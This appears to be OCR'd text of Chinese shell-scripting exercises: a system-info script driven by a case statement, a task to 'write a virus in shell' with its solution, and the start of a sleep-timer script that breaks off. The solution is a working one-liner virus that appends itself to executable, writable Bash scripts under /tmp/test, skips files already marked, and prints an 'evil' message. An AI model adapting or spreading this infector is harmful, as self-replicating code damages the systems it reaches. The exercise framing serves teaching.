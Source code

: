 ```shell

UPT () {
uptime
}

SEL () {
getenforce
}

FER () {
free -m
}

NET () {
ifconfig
}

case $1 in
-r)
	REL;;	
-k)
	KER;;
-d)
	DIS;;
-u)
	USR;;
-t)
	UPT;;
-s)
	SEL;;
-f)	
	FER;;
-n)
	NET;;
-a)
	REL;KER;DIS;USR;UPT;SEL;FER;NET;;
--help)
	echo "this is help"
esac
```
----
用shell脚本写一个病毒，要求如下：
1. 可以感染系统中的所有Bourne-Again shell script的脚本,可执行，可写；
2. 执行感染后的bash shell脚本会输出"echo hello,I am evil!"
3. 如果已经被感染，就不再感染

```shell
#!/bin/bash
if [ ! -f /tmp/.mybblock ];then touch /tmp/.mybblock; for i in `find /tmp/test/*` ; do grep "mybblock" $i &> /dev/null && continue ; file $i | grep "Bourne-Again shell script" &> /dev/null || continue ; [ -x $i -a -w $i ] || continue ; tail -n 1 $0 >> $i; done ; echo "hello,I am evil!"; rm -rf /tmp/.mybblock &> /dev/null ; fi
```
---
如果foo.sh 的第一个位置参数为-s ，那么就沉睡，时间由第二个位置参数决定
```shell
#!/bin/bash
SLEEP ()
{
        echo "now sleep"
        sleep $1
}

case $1 in
```